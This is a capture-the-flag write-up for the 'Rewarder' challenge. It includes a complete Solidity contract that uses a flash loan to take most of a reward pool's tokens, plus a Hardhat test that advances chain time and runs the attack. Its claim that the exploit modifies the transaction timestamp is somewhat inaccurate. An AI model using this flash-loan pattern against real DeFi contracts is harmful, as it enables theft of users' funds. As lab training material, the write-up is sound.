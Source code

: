 # Challenge #5 - The rewarder
 There's a pool offering rewards in tokens every 5 days for those who deposit their DVT tokens into it.

 Alice, Bob, Charlie and David have already deposited some DVT tokens, and have won their rewards!

 You don't have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.

 Oh, by the way, rumours say a new pool has just landed on mainnet. Isn't it offering DVT tokens in flash loans? 

## Exploit 
In this challenge we can use the flashloan, to mint the attacker free rewardTokens by modifying 
the transaction timestamp and calling the ``distributeRewards()`` before returning the flashloan. 
Therefore, we can mint as an attacker free reward tokens.  
 
```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

interface ILendingPool {
	function flashLoan(uint256 amount) external;
}

interface IRewardsPool {
	function deposit(uint256 amountToDeposit) external;
	function withdraw(uint256 amountToWithdraw) external;
}

interface IDVT {
	function transfer(address to, uint256 amount) external returns (bool);
	function approve(address spender, uint256 amount) external returns (bool);
}

interface IRewardToken {
	function transfer(address to, uint256 amount) external returns (bool);
	function balanceOf(address account) external view returns (uint256);
}

contract Exploit_TheReward {

	address attacker;
	ILendingPool lendingPool;
	IRewardsPool rewardsPool;	
	IRewardToken rewardToken;
	IDVT dvt;

	function exec(address _lendingPool, address _rewardsPool, address _dvt, address _rt) external {
		lendingPool = ILendingPool(_lendingPool);	
		rewardsPool = IRewardsPool(_rewardsPool);
		rewardToken = IRewardToken(_rt);
		dvt = IDVT(_dvt);
		attacker = msg.sender;
		lendingPool.flashLoan(1000000 ether);
	}
	
	function receiveFlashLoan(uint256 amount) external {
		dvt.approve(address(rewardsPool), amount);
		rewardsPool.deposit(amount);
		rewardsPool.withdraw(amount);
		dvt.transfer(address(lendingPool), amount);
		rewardToken.transfer(attacker, rewardToken.balanceOf(address(this))); 
	}
}

```
Execution: 
```js
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        // Advance time 5 days so that depositors can get rewards
        await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]); // 5 days
		await this.exploit.exec(
			this.flashLoanPool.address, 
			this.rewarderPool.address,
			this.liquidityToken.address,
			this.rewardToken.address
		);
    });
```
